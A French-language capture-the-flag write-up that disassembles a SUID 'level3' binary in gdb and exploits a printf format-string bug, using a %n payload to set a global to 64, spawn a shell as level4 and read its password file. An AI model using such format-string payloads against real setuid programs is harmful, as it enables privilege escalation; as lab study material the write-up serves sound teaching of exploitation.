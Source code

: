 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
  [...]
  ```
    - On a un binaire appartenant a level4 dans le home avec les droits SUID.

- `./level3`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level3`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  v
      0x0804851a  main
    [...]
    ```
    - on trouve une fonction v en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
      0x0804851a <+0>:	push   ebp
      0x0804851b <+1>:	mov    ebp,esp
      0x0804851d <+3>:	and    esp,0xfffffff0
      0x08048520 <+6>:	call   0x80484a4 <v>
      0x08048525 <+11>:	leave
      0x08048526 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction v()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait rien d'autre qu'appeler v()<br/><br/>
    
  - `disas v`
    ```asm
    Dump of assembler code for function v:
      0x080484a4 <+0>:	push   ebp
      0x080484a5 <+1>:	mov    ebp,esp
      0x080484a7 <+3>:	sub    esp,0x218
      0x080484ad <+9>:	mov    eax,ds:0x8049860
      0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
      0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
      0x080484be <+26>:	lea    eax,[ebp-0x208]
      0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
      0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
      0x080484cc <+40>:	lea    eax,[ebp-0x208]
      0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
      0x080484d5 <+49>:	call   0x8048390 <printf@plt>
      0x080484da <+54>:	mov    eax,ds:0x804988c
      0x080484df <+59>:	cmp    eax,0x40
      0x080484e2 <+62>:	jne    0x8048518 <v+116>
      0x080484e4 <+64>:	mov    eax,ds:0x8049880
      0x080484e9 <+69>:	mov    edx,eax
      0x080484eb <+71>:	mov    eax,0x8048600
      0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
      0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
      0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
      0x08048504 <+96>:	mov    DWORD PTR [esp],eax
      0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
      0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
      0x08048513 <+111>:	call   0x80483c0 <system@plt>
      0x08048518 <+116>:	leave
      0x08048519 <+117>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049860 dans le data segment register
        - `x/s 0x8049860`
          - `0x8049860 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Stocke dans eax la valeur à ebp - 520 => esp + 16
      - Stocke la valeur de eax (valeur à l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse ebp - 520) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+62>
      - Stocke dans eax la valeur de l'adresse 0x804988c dans le data segment register
        - `x/s 0x804988c`
          - `0x804988c <m>:	 ""`
      - Compare la valeur de eax (la globale m) avec 0x40 (64)
      - Jump à <+116> si la comparaison est fausse<br/><br/>
    - <+64> ... <+99>
      - Stocke dans eax la valeur de l'adresse 0x8049880 dans le data segment register
        - `x/s 0x8049880`
          - `0x8049880 <stdout@@GLIBC_2.0>:	 " ", <incomplete sequence \375\267>`
      - Stocke eax dans edx
      - Stocke dans eax la valeur de l'adresse 0x8048600
        - `x/s 0x8048600`
          - `0x8048600:	 "Wait what?!\n"`
      - Stocke edx (stdout) sur la stack (à esp + 12)
      - Stocke 0xc (12) sur la stack (à esp + 8)
      - Stocke 0x1 (1) sur la stack (à esp + 4)
      - Stocke la valeur de eax ("Wait what?!\n") sur la stack (à esp)
      - Call fwrite() avec les arguments stockés sur la stack<br/><br/>
    - <+104> ... <+111>
      - Stocke la valeur à l'adresse 0x804860d sur la stack (à esp)
        - `x/s 0x804860d`
          - `0x804860d:	 "/bin/sh"`
      - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+116> ... <+117> <= Jump conditionnel depuis <+62>
      - Réinitialisation de la mémoire, fin d'exécution


## Exploit

On comprend grâce à l'analyse que pour pouvoir avoir notre shell il va falloir donner à la globale 'm' (à l'adresse 0x804988c) la valeur 64, sinon on sort direct du programme.

On fait appel à deux fonctions avant la comparaison:
- fgets(buffer, 512, stdin), qui est protégé d'un buffer overflow puisqu'il ne lira jamais plus de 511 octets
- printf(buffer), ici par contre le printf est vulnérable à un [exploit de format string](https://cs155.stanford.edu/papers/formatstring-1.2.pdf#page=11)

On cherche le nombre de paramètres a demander pour que printf() commence a prendre ses arguments sur le début de notre format string:
- `echo 'AAAA%x.%x.%x.%x.%x' | ./level3`
  ```
  AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825
  ```
    - On remarque que printf arrive bien sur le début de notre format string (`41414141` => `AAAA`), au quatrième paramètre
- On peut donc choisir une adresse à afficher: `python -c 'print "\x8c\x98\x04\x08 %4$x"' | ./level3`
  ```
  � 804988c
  ```
Maintenant qu'on sait comment y accéder, on va se servir du [modifier %n de printf](https://docs.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), qui prend un pointeur sur entier en paramètre (notre adresse) et y écrit le nombre d'octets précédemment affichés par printf.
- `python -c 'print "\x8c\x98\x04\x08%1$60d%4$n"' | ./level3`
  - Ici, on affiche l'adresse (4 octets) et le premier paramètre de la stack (0x200) avec un padding de 60 (60 octets)
  - Puis on dit a printf d'écrire le nombre d'octets écrits précédemment (donc 60 + 4) à l'adresse indiquée par le 4ème argument (qui est le début de notre format string: `0x804988c` en little endian)
    ```
    �                                                         512
    Wait what?!
    ```
    - Ca fonctionne, on n'a plus qu'a maintenir le shell ouvert avec cat:
      - `python -c 'print "\x8c\x98\x04\x08%1$60d%4$n"' > /tmp/exploit`
      - `cat /tmp/exploit - | ./level3`
        ```
        �                                                         512
        Wait what?!

        ```
        - `whoami`
          ```
          level4
          ```
          - `cat /home/user/level4/.pass`
            ```
            b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
            ```


